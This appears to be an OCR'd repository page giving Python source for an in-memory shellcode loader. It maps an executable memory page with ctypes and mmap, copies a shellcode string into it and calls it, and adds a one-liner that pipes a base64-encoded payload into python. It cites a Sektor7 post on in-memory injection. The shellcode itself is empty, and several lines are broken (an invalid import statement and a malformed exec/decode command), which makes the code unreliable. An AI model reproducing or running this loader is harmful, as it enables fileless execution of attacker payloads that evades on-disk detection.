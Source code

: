 # Python

```python
from ctypes.import (CDLL, c_void_p, c_size_t, c_int, c_long, memmove, CFUNCTYPE, cast, pythonapi)
from ctypes.util import (find_library)
from sys import exit

PROT_READ = 0x01
PROT_WRITE = 0x02
PROT_EXEC = 0x04
MAP_PRIVATE = 0x02
MAP_ANONYMOUS = 0x20
ENOMEM = -1

# $ base64 -w 0 payload.py
shellcode = ""

libc = CDLL(find_library('c'))

# C language equivalence
# void *mmap(void *address, size_t length, int prot, int flags, int fildes, off_t off);
mmap = libc.mmap
mmap.argtypes = [ c_void_p, c_size_t, c_int, c_int, c_int, c_size_t ]
mmap.restype = c_void_p

page_size = pythonapi.getpagesize()
shellcode_length = len(shellcode)
memory_size = page_size * (1 + shellcode_length / page_size)

cpointer = mmap(0, memory_size, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0)

if cpointer == ENOMEM:
    exit("mmap() memory allocation error")

if shellcode_length <= memory_size:
    memmove(cpointer, shellcode, shellcode_length)
    memory = CFUNCTYPE(c_void_p, c_void_p)
    execute_memory = cast(cpointer, memory)
    execute_memory(None)
```

To execute the payload.

```
$ echo "exec('<base64_payload>').decode('base64')) | python"
```

---
## References

### Sektor7

- [Sektor7: Pure In-Memory (Shell)Code Injection In Linux Userland](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md)
